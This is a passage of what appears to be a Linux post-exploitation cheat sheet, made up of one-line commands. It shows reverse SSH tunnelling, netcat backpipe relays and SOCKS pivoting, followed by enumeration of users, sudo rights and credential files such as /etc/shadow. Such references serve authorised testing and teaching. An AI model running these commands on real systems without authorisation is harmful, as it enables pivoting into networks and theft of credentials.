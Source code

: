 `ssh -R 8080:127.0.0.1:80 root@192.168.1.7`    **Remote Port**

**_Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe_**

`mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe`   # Port Relay

`mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe`  **Proxy (Port 80 to 8080)**

`mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe` **Proxy monitor (Port 80 to 8080)**

#

### Is tunnelling possible? Send commands locally, remotely

`ssh -D 127.0.0.1:9050 -N [username]@[ip]`

`proxychains ifconfig`

#

# Confidential Information & Users

### Who are you? Who is logged in? Who has been logged in? Who else is there? Who can do what?

`id`

`who`

`w`

`last`

`cat /etc/passwd | cut -d: -f1` **List of users**

`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'`   **List of super users**

`awk -F: '($3 == "0") {print}' /etc/passwd`   **List of super users**

`cat /etc/sudoers`

`sudo -l`

#

### What sensitive files can be found?

`cat /etc/passwd`

`cat /etc/group`

`cat /etc/shadow`

`ls -alh /var/mail/`

#
